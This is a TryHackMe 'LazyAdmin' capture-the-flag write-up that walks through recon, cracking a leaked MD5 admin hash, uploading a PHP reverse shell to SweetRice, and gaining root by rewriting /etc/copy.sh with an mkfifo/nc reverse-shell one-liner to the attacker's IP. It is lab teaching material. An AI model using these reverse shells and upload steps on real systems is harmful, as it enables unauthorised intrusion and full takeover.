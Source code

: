 ```yaml
---
title: "LazyAdmin - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - LazyAdmin
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - thm
  - tryhackme
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## LazyAdmin
![](https://kar0nx.github.io/assets/images/writeup/efbb70493ba66dfbac4302c02ad8facf.jpeg)

## Reconnaissance

IP: 10.10.98.124
### NMAP

```
nmap -T4 -A -p- 10.10.98.124
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-27 07:33 EST
Nmap scan report for 10.10.98.124
Host is up (0.043s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/27%OT=22%CT=1%CU=31069%PV=Y%DS=2%DC=T%G=Y%TM=67C0
OS:5BD6%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(SP=103%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508S
OS:T11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=
OS:68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=
OS:M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   42.96 ms 10.11.0.1
2   43.05 ms 10.10.98.124

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.43 seconds
```

As we can see only 2 ports are open it is ssh 22 - OpenSSH and http 80 - Apache httpd 2.4.18

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250227133712.png)

Default apache page, let's fuff it 

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.98.124/FUZZ
```

we found /content but nothing interesting here, continue fuzzing 

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.98.124/content/FUZZ
```

in /content/inc/ we can find mysql backup file

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250227140047.png)

we have login and password hash, try to crack it, https://crackstation.net/ and we got it

| Hash                             | Type | Result      |
| -------------------------------- | ---- | ----------- |
| 42f749ade7f9e195bf475f37a44cafcb | md5  | Password123 |
navigating to /content/as/ we have sweetrice login page, lets try credentials that we found 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250227135810.png)

We got it, let's explore site we can create post and upload files. 
## Gaining access

Generate basic php reverse shell using https://www.revshells.com/
I used pentestmonkey version and .phtml extension , set nc on attacking machine.

```
nc -nvlp 5555  
```

We have shell, grab flag navigating to /home/itguy/user.txt

## Privilege Escalation

Start with "easy wins" like 

```
sudo -l
```

```
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So let's see what backup.pl doing

```
cat /home/itguy/backup.pl
```

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

executing script in /etc/copy.sh, now we need to check it

```
cat /etc/copy.sh
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

looks like simple nc script for reverse shell, I will edit it to mine ip and port

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.129.113 4444 >/tmp/f" > /etc/copy.sh
```

set nc on port 4444 and execute backup.pl with sudo

We have root

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250227144534.png)

flag is in /root/root.txt